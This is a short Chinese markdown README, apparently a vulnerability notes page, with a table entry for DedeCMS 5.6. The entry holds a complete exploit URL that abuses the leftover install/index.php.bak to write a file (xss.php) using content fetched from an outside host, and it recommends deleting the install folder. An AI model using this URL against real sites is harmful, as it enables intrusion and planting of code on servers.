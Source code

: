 # **仁裕元科技出品- 一些项目中用到的脚本** #
----
#### 1 常用系统漏洞
| 软件名称 | 实例  | 说明 | 备注 |
| :------------ | :------------ | :------------ | :------------ |
| dedecms5.6 | `http://你的dedecms网址/install/index.php.bak?step=11&insLockfile=a&s_lang=a&install_demo_name=../xss.php&updateHost=http://www.xmyisu.com/`  | 安装dedecms 后会>  生成install/index.php.bak这个文件.| 建议删除install文件夹 |
